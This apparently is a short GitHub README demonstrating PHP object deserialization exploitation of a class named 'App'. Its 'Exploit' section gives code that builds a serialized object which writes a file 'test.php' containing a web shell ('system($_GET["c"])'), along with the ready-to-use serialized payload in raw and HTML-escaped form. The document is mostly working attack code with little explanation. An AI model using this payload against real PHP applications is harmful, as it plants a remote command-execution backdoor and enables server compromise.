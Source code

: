 # phpDeserilization

# Find vulnerable endpoint!!

## Usage

*Testing*
deseralize.php
```php
<?php

class App
{
    public $logfile = 'logs.txt';
    public $logData = 'text';
}

$test = new App;

echo serialize($test);
```

Run deseralize.php, eg: 
```php
O:3:"App":2:{s:7:"logfile";s:8:"logs.txt";s:7:"logData";s:4:"text";}
```
To seralize the object/class


# Exploit 

```php
<?php

class App
{
    public $logfile = 'test.php';
    public $logData = '<?php system($_GET["c"]);?>';
}

$test = new App;

echo htmlspecialchars(serialize($test));

```
Output:
```php
O:3:&quot;App&quot;:2:{s:7:&quot;logfile&quot;;s:8:&quot;test.php&quot;;s:7:&quot;logData&quot;;s:27:&quot;&lt;?php system($_GET[&quot;c&quot;]);?&gt;&quot;;}
#From html entity
O:3:"App":2:{s:7:"logfile";s:8:"test.php";s:7:"logData";s:27:"<?php system($_GET["c"]);?>";} 
```

